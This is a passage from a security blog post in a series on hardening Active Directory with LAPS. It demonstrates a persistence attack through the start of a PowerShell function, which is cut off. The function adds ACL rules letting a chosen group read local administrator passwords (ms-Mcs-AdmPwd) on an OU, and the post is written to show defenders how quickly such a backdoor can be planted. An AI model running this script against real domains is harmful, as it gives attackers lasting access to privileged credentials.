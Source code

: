 My last few [Red forest posts](/redforest/phase1/laps) are on LAPS, so I'll start by simulating a LAPS Persistence Attack

I can add LAPS permissions into the domain in under one second. Literally 396 milliseconds. Attackers can have a backdoor into your domain in under 400 ***MILLI***iseconds!  Thats 4/10ths of a second! 

![Attack Persistence in 398 milliseconds](images/persistence1.png?classes=shadow&width=60pc)

"But the attacker was only in my system for 4 minutes! It's ok!"  

Is it?... Is it really.  I can add a smorgasbord of backdoors in 4 minutes.

Boomsauce Below:
```powershell
function ApplyPersistenceLAPS {
    ## Create guidmap for acl functions
    cd ad:
    #================
    #Get a reference to the RootDSE of the current domain
    $schemaPath = (Get-ADRootDSE)
    #Get a reference to the current domain
    $domain = Get-ADDomain
    #============================
    #Create a hashtable to store the GUID value of each schema class and attribute
    $guidmap = @{ }
    Get-ADObject -SearchBase ($schemaPath.SchemaNamingContext) -LDAPFilter `
    "(schemaidguid=*)" -Properties lDAPDisplayName, schemaIDGUID |
        % { $guidmap[$_.lDAPDisplayName] = [System.GUID]$_.schemaIDGUID }
    #Create a hashtable to store the GUID value of each extended right in the forest
    $extendedrightsmap = @{ }
    Get-ADObject -SearchBase ($schemaPath.ConfigurationNamingContext) -LDAPFilter `
    "(&(objectclass=controlAccessRight)(rightsguid=*))" -Properties displayName, rightsGuid |
        % { $extendedrightsmap[$_.displayName] = [System.GUID]$_.rightsGuid }
    Function ReadComputerAdmPwd($objGroup, $objOU, $inheritanceType)
    {
    $error.Clear()
        $groupSID = New-Object System.Security.Principal.SecurityIdentifier $objGroup.SID
        $objAcl = get-acl $objOU
        $objAcl.AddAccessRule((New-Object System.DirectoryServices.ActiveDirectoryAccessRule $groupSID, "ReadProperty", "Allow", $guidmap["ms-Mcs-AdmPwd"], $inheritanceType, $guidmap["computer"]))
        $objAcl.AddAccessRule((New-Object System.DirectoryServices.ActiveDirectoryAccessRule $groupSID, "ExtendedRight", "Allow", $inheritanceType, $guidmap["computer"]))
        try
        {
           Set-Acl -AclObject $objAcl -path $objOU
        }
        catch
        {
            Write-Host -ForegroundColor Red ("ERROR: Unable to grant the group " + $objGroup.Name + " permissions to read local administrator password on OU" + $objOU)
```